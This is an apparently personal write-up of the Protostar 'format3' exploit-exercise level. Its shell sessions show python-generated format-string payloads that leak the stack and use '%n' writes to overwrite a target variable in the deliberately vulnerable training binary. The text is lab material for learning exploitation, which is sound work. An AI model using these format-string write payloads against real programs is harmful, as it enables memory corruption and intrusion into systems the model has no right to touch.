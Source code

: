 #Format 3

Goal: similart to previous except it is just no longer writing byte but more than one byte.


```	
[13:10:06] danny@ubuntu:~/Desktop/project/Exploit-Exercises/Protostar/format3$python -c 'print "AAAA" + "%x." * 12 ' |./format3 
AAAAf7ff0500.ffffd114.f7fbd000.0.0.ffffd0c8.80484e6.ffffcec0.200.f7fbdc20.f7ffd000.41414141.
Target is 00000000 :(
```
Lets try with our address:

```
[13:14:00] danny@ubuntu:~/Desktop/project/Exploit-Exercises/Protostar/format3$python -c 'print "\x30\xa0\x04\x08" + "%x." * 12 ' |./format3 
0�f7ff0500.ffffd114.f7fbd000.0.0.ffffd0c8.80484e6.ffffcec0.200.f7fbdc20.f7ffd000.804a030.
Target is 00000000 :(
```
From this point on, I brute force the number of characters need to be written.But it is definitely possible to calcualte (laziness).

overwritten byte by byte 

```
[13:17:59] danny@ubuntu:~/Desktop/project/Exploit-Exercises/Protostar/format3$python -c 'print "\x30\xa0\x04\x08\x31\xa0\x04\x08\x32\xa0\x04\x08%56x%12$n%17x%13$n%173x%14$n"'| ./format3 
0�1�2�                                                f7ff0500         ffffd114                                                                                                                                                                     f7fbd000
you have modified the target :)
```

But just for fun I try to see if I can overwrite 4 byte at the same time.Unfortunately, I only got up to last two bytes:

```
[13:20:13] danny@ubuntu:~/Desktop/project/Exploit-Exercises/Protostar/format3$python -c 'print "\x30\xa0\x04\x08%21824x%12$n"' | ./format3 
0�   
Target is 00005544 :(
```
